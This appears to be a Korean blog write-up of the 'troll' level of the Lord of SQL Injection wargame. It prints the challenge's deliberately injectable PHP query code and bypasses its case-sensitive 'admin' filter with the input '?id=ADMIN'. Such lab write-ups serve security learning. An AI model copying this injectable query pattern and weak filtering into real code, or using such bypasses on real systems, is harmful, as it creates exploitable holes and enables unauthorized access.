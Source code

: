 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - troll 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제의 이름은 `troll`이다.  

중간중간에 좀 쉬운 문제들이 있어서 하루에 여러개 빠박! 풀고 싶은데 그러면 내가 일을 안할 것 같으니 한문제 씩만 풀어야겠다.  

이번 문제는 매우 간단하다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------
query : select id from prob_troll where id=''
-------------------------------------------------------------

<?php  
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(@ereg("admin",$_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```

쿼리를 완성시켜 `id`가 `admin`인 결과를 가져오면 된다.  

그런데 코드 중간을 보면 `ereg("admin", %_GET['id'])`라는 부분이 있다.  

`ereg()` 함수는 정규표현식을 이용해서 일치하는 문자열이 있는지를 찾아주는 함수이다.  

이 문제에서는 사용자가 입력 한 `id`에  `admin`이라는 문자열이 있는지 없는지를 검사한다.  

`id`가 `admin`인 결과를 추출해야 하는데 `admin`에 필터링이 걸려있다.  

그래서 `ereg()` 함수에 오류가 있거나 필터링이 완벽하지 않을 것이라고 생각하고 문제에 접근했다.  

이 전에도 몇번 언급했다시피 `MySQL`에서는 대소문자 구분이 없다.  

때문에 `id`가 `admin`인 결과를 추출하기 위해서 쿼리의 `where`절에 `admin`, `Admin`, `ADMIN` 등을 입력해도 결국 같은 값을 얻을 수 있다.  

찾아보니 `ereg()` 함수는 대소문자를 구분하는 함수이다.  

그래서 `admin`이라는 단어가 있다면 `true`를 반환하겠지만 `Admin`, `ADMIN` 처럼 한 글자라도 대문자로 구성한다면 `false`를 반환 할 것이다.  

그렇다면 필터링도 우회하고 쿼리도 정상적으로 실행 해 문제를 풀 수 있다.  

역시나 아래와 같이 입력했더니 문제를 풀 수 있었다.  

```
?id=ADMIN
```

```php
--------------------------------------------------------
query : select id from prob_troll where id='ADMIN'
--------------------------------------------------------

TROLL Clear!
<?php  
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(@ereg("admin",$_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```

`TROLL Clear!!`